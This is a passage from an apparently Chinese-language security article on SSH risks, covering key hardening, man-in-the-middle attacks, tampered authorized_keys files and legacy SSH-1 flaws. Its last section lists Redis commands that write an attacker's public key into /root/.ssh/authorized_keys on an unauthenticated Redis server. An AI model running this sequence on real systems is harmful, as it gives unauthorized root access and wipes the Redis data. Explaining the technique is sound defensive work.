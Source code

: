 解决方案：  
```
1.生成强密钥对：使用ssh-keygen命令生成新的RSA或ECDSA密钥对，并确保密钥对的位数足够长（例如4096位）。

2.部署强密钥：将生成的公钥部署到需要访问的服务器上的~/.ssh/authorized_keys文件中，确保禁用密码登录。

3.配置SSH服务器：编辑/etc/ssh/sshd_config文件，确保以下配置项被设置：

        PasswordAuthentication no：禁止密码认证。

        PermitRootLogin no：禁止root用户通过SSH登录。

        PubkeyAuthentication yes：开启公钥认证。

4.重启SSH服务：在配置修改后，重启SSH服务以应用新的配置。
```  
  
### 3.3 Man-in-the-Middle（中间人）攻击  
  
尽管SSH  
的加密通信机制能有效防止窃听，但如果攻击者能够在首次建立连接时实施中间人攻击，劫持公钥交换的过程，便可能替换公钥，使用户之后的通信被篡改或监控。  
### 3.4 公钥文件污染  
  
服务器上的authorized_keys  
文件存储着客户端的公钥，一旦该文件被恶意篡改或污染，攻击者就可以添加自己的公钥，获得对服务器的访问权限。因此，服务器的文件系统安全和权限管理至关重要。  
### 3.5 老旧SSH协议漏洞  
  
SSH  
协议经历了多个版本的更新，早期版本（如  
SSH-1  
）存在严重的安全漏洞。如果服务器支持不安全的旧版本协议，攻击者可能通过这些漏洞进行攻击。因此，建议使用SSH-2  
版本，该版本修复了许多安全问题。  
### 3.6 edis等未授权漏洞写公钥  
  
1.Redis  
存在弱口令或空密码漏洞。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4136w7o9JvfIhEKcicTtwn9wb09piaSHQKHQrgP9yxSmygNJxEbVUdNUWkcerFRakwfuFMMjBIUxia3eQxR4kKQ9w/640?wx_fmt=jpeg&from=appmsg "")  
  
2.连接后确定Linux  
系统后依次执行命令：  
```
flushall

config set dir /root/.ssh/

config set dbfilename authorized_keys

ssh-rsa AAAAB3Nza**************HFk= root@hostname   （id_rsa.pub文件内容）

save
```  
  